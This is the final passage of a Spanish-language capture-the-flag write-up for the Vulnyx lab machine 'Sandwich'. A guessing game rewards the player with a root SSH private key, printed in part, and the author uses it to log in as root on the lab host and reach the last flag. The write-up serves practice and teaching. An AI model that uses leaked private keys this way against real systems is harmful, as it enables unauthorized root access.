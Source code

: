 ```bash
Your guess is too high.
Try to guess:
Intento con: 13610
Good job, Solver! You guessed my number in 20 attempts!
¡Adivinado el número en 20 intentos!
Here's your reward:
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAACFwAAAAdzc2gtcn
NhAAAAAwEAAQAAAgEAzMoVFzc2RXwrRJ6QA2Kr/trjNxtTpuvKn10uYGmFNcmPfACQfR0H
BBWQUY8LvVg+5UGGEyuC1Kvv9hevyemqVMm5+Xe9D+BCHQoqXoa7VeEd+As736w9+Ly1/D
z0ovVAA1Ae8eRJsHzXHLFcgXflpOh2mdH7hAnzr3sbDFSnUT7VOy86ODMm1PFfC6ec5BjU
z5iQjdHGOpOOTxvAsMIQeZWCgR1/hrnB1LgT82eKakFerk1V1bJTGCqDpOeaVY/oOwTXIX
    ...
    ...
    ...
I7nS3nsGgro0LxFegq4lNK/J0hOxdr0AzYCA0V1URBAc7F1yeIVsfw5agUBctTIETh4vb2
qbXz8zkaUCs3OxD+29tm759C9VV06EghvPGsNLQCNxhUJQADl+alhof4JLgaNsGSAjD0+E
BbrBjxfJ/Thc+/TRnUgi02VXBvEN3lEPPSykgnkrH05sJy3bkkypcSzrhu56I8xH2JNktD
KI7CKEYAOb49G7AAABAQDjtfviGpDjQvFu/a3ftuJTO0jOfMi0KUC4D8gtX0RuLX9kx4en
99te7snBHk667wwOWg1Obo4OKuVQPbI9GpxfP8ExnSBCj7ul6pHTGrHYoKDXFkGE38LdTx
vMEEyqhFiqNIv9iJUMfrZf4WcOWTl+rtJus3xz8yEjxJ+8CXNb3DSGD2AN2my4gmXuSJec
Q3j0qy5I0191AjSaySmfOvFTdXk/2CHq2BiPDyrvZBoJC1/Uo34IJzv7KniWETOn1pXQyW
5e4Z60iiIePJTiXy32FP1CkMfFCqrnCf6vUh7u5/cogU9EFCFxfEcAagP0OMU3pu8stWpw
r1QiwDaFhL5nAAAADXJvb3RAc2FuZHdpY2gBAgMEBQ==
-----END OPENSSH PRIVATE KEY-----
```

Lo que queda ya me imagino que sabes qué es, la clave no tiene contraseña y el usuario root puede acceder mediante SSH para leer la última flag.

```bash
┌──(kali㉿kali)-[~/CTFs/Vulnyx/Sandwich]
└─$ nano private_root
     
┌──(kali㉿kali)-[~/CTFs/Vulnyx/Sandwich]
└─$ chmod 600 private_root 

┌──(kali㉿kali)-[~/CTFs/Vulnyx/Sandwich]
└─$ ssh root@192.168.1.182 -i private_root 
Linux sandwich 6.1.0-32-amd64 #1 SMP PREEMPT_DYNAMIC Debian 6.1.129-1 (2025-03-06) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Sun Mar 30 19:49:16 2025 from 192.168.1.181
root@sandwich:~# ls
root.txt

```

Esto es todo, espero que les haya gustado la máquina y el write-up.